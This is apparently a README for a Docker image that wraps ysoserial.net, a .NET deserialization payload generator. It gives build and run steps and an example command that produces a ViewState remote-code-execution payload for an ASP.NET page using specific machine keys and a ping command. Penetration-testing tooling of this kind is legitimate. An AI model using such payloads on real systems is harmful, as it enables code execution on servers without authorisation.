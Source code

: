 ## Dockeriamge for ysoserial.net

### Usage

- Build the image
```bash
docker build -t ysoserial.net .
```

- Run the image
```bash
docker run -dit --name ysoserial ysoserial-image
```

- You can also use the ysoserial_runner.sh script to interact with ysoserial.net
```bash
alias ysoserial='/opt/scripts/ysoserial_runner.sh '

ysoserial run '-p ViewState  -g TextFormattingRunProperties -c "ping 10.10.14.95" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"'
```

#### Example

![alt text](images/image.png)

#### Note:
- The image is about 5GB so it will take some time to build and make sure you have enough space on your machine.
 
![alt text](images/image-1.png)
